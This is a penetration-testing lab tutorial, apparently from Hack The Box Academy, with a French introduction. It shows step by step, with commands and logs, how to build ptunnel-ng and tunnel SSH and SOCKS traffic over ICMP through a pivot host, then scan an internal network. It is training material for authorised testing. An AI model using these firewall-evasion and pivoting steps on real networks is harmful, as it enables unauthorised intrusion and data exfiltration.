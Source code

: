 # ICMP Tunneling with SOCKS

***

{% hint style="warning" %}
L’**ICMP tunneling** encapsule votre trafic dans des **paquets ICMP** contenant des **requêtes et des réponses d’écho**.

L’ICMP tunneling fonctionne **uniquement** lorsque les **réponses aux pings sont autorisées** dans un réseau protégé par un pare-feu.

Lorsqu’un **hôte à l’intérieur d’un réseau** protégé par un pare-feu **est autorisé à pinguer** un serveur externe, il peut **encapsuler son trafic dans la requête de ping** et l’envoyer à un serveur externe.

Le serveur externe peut **valider ce trafic et envoyer une réponse appropriée**, ce qui est extrêmement utile pour **exfiltrer des données** et **créer des tunnels de pivotement** vers un serveur externe.

Nous allons utiliser l’outil **ptunnel-ng** pour **créer un tunnel entre notre serveur Ubuntu et notre machine d’attaque**.

Une fois le tunnel créé, nous pourrons **proxifier notre trafic à travers le client ptunnel-ng**.

Nous allons commencer par démarrer le **serveur ptunnel-ng** sur l’**hôte pivot** cible.

Commençons par installer et configurer **ptunnel-ng**
{% endhint %}

***

### <mark style="color:red;">Setting Up & Using ptunnel-ng</mark>

<mark style="color:green;">**Cloning Ptunnel-ng**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```

<mark style="color:green;">**Building Ptunnel-ng with Autogen.sh**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./autogen.sh 
```

<mark style="color:green;">**Alternative approach of building a static binary**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo apt install automake autoconf -y
mrroboteLiot@htb[/htb]$ cd ptunnel-ng/
mrroboteLiot@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
mrroboteLiot@htb[/htb]$ ./autogen.sh
```

<mark style="color:green;">**Transferring Ptunnel-ng to the Pivot Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

<mark style="color:green;">**Starting the ptunnel-ng Server on the Target Host**</mark>

```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```

The IP address following `-r` should be the IP we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.

<mark style="color:green;">**Connecting to ptunnel-ng Server from Attack Host**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

<mark style="color:green;">**Tunneling an SSH connection through an ICMP Tunnel**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```

If configured correctly, we will be able to enter credentials and have an SSH session all through the ICMP tunnel.

On the client & server side of the connection, we will notice ptunnel-ng gives us session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way we can confirm that our traffic is passing from client to server utilizing ICMP.

<mark style="color:green;">**Viewing Tunnel Traffic Statistics**</mark>

```shell-session
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

We may also use this tunnel and SSH to perform dynamic port forwarding to allow us to use proxychains in various ways.

<mark style="color:green;">**Enabling Dynamic Port Forwarding over SSH**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```

We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.

<mark style="color:green;">**Proxychaining through the ICMP Tunnel**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```
{% endcode %}

***

### <mark style="color:red;">Network Traffic Analysis Considerations</mark>

It is important that we confirm the tools we are using are performing as advertised and that we have set up & are operating them properly. In the case of tunneling traffic through different protocols taught in this section with ICMP tunneling, we can benefit from analyzing the traffic we generate with a packet analyzer like `Wireshark`. Take a close look at the short clip below.

![](https://academy.hackthebox.com/storage/modules/158/analyzingTheTraffic.gif)

In the first part of this clip, a connection is established over SSH without using ICMP tunneling. We may notice that `TCP` & `SSHv2` traffic is captured.

The command used in the clip: `ssh ubuntu@10.129.202.64`

In the second part of this clip, a connection is established over SSH using ICMP tunneling. Notice the type of traffic that is captured when this is performed.

Command used in clip: `ssh -p2222 -lubuntu 127.0.0.1`

***
